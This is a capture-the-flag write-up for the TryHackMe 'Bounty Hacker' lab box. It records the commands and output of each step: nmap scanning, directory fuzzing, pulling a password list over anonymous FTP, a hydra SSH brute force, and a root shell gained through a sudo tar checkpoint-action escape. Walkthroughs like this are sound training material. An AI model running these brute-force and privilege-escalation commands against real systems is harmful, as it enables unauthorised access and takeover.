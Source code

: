 # Bounty Hacker
Try Hack Me room
ip=10.10.152.23

# Reconnaissance 
### Nmap 
```bash
nmap -T5 -sV -A  $host_ip 
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-01 04:56 EST
Nmap scan report for 10.10.152.23
Host is up (0.17s latency).
Not shown: 967 filtered tcp ports (no-response), 30 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.54.133
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)

```
Saved ip to /etc/host so i dont need to remenber ip 

Saved as => Bounty_hacker.thm

Going to that port we found a web hosted 

### Port 80

Looked into robots.txt nothing found so moved to fuzz it using ffuf
```bash
ffuf -w /usr/share/wordlists/dirb/common.txt -u http://bounty_hacker.thm/FUZZ  -r 
```
Didn't find anything intersting. Since the box was easy i went to try the other ports 

### FTP 
Saw that Anonymous login was enabled on port 21. Intersting maybe there is something there. Found 2 files on the FTP server.
Lets GET them and see what happens.


## Lock.txt
This text file has what looks like some kind of credential, but to what? Lets try them on SSH since thats another open port.  
Note: We also found another text file on the ftp with a note 
	```
		1.) Protect Vicious.
		2.) Plan for Red Eye pickup on the moon.

		-lin
	```

## Gaining Access 
Lets try to bruteforce with the credentials we have and the user lin since its mentioned. 
```bash
hydra -l lin -P locks.txt 10.10.152.23  ssh 

```
Hoorray We are in !
```bash
	lin@bountyhacker:~/Desktop$ ls
	user.txt
	lin@bountyhacker:~/Desktop$ cat user.txt 

```

## Privilege Escalation
```bash
lin@bountyhacker:~/Desktop$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:                                                                                 
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin              
                                                                                                                                   
User lin may run the following commands on bountyhacker:                                                                           
    (root) /bin/tar 

```
We can see that lin can run tar binary with special privilege lets check if [gtfobins](https://gtfobins.github.io/) on how to privilege our way.

We can search the tar binary 

[https://gtfobins.github.io/](https://gtfobins.github.io/)
We can see that we can use sudo to gain better pprivilege  using 
```bash 
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```
And we are in 
```bash
lin@bountyhacker:~/Desktop$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh                       
tar: Removing leading `/' from member names                                                                                        
# whoami                                                                                                                           
root         
```
DONE !!!